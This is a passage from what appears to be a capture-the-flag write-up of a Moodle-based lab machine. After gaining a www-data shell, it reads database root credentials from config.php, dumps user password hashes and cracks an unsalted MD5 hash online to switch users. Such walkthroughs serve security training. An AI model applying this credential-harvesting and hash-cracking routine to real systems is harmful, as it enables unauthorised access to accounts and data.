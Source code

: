 ```
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: MoodleSession=bqljifn8h4dlhqg0045bi47qn1
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```
And we can get a shell as www-data.

## User
Once we are inside the system, the first thing that we want to (always) look at, is the credentials for the database inside the code.  
```
www-data@teacher:/var/www/html/moodle$ ls | grep config
config-dist.php.bak
config.php
config.php.save
```
if we open the file:
```
$CFG->dbtype    = 'mariadb';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'root';
$CFG->dbpass    = 'Welkom1!';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (
  'dbpersist' => 0,
  'dbport' => 3306,
  'dbsocket' => '',
  'dbcollation' => 'utf8mb4_unicode_ci',
);
```
Now we can log in into database moodle and extract users hashes:
```
+-------------+--------------------------------------------------------------+
| username    | password                                                     |
+-------------+--------------------------------------------------------------+
| guest       | $2y$10$ywuE5gDlAlaCu9R0w7pKW.UCB0jUH6ZVKcitP3gMtUNrAebiGMOdO |
| admin       | $2y$10$7VPsdU9/9y2J4Mynlt6vM.a4coqHRXsNTOq/1aA6wCWTsF2wtrDO2 |
| giovanni    | $2y$10$38V6kI7LNudORa7lBAT0q.vsQsv4PemY7rf/M1Zkj/i1VqLO0FSYO |
| Giovannibak | 7a860966115182402ed06375cf0a22af                             |
+-------------+--------------------------------------------------------------+
```
As we can see password fow 'Giovannibak' is slightly different from the others:
```
[root@kali exploits ]$ echo "7a860966115182402ed06375cf0a22af" | wc -c                                      
33
```
Since this string is 32 characters we can suppose this is a MD5 digest.  
MD5 hashes are easy to crack, since most of the cracked hashes are available online.  
So, now, let's just google for the hash, and as we can see, as first result, we do get a page that displays the [cracked hash](https://md5.gromweb.com/?md5=7a860966115182402ed06375cf0a22af):
```
The MD5 hash:
7a860966115182402ed06375cf0a22af
was succesfully reversed into the string:
expelled
```
so now, we can su to giovanni using password 'expelled'
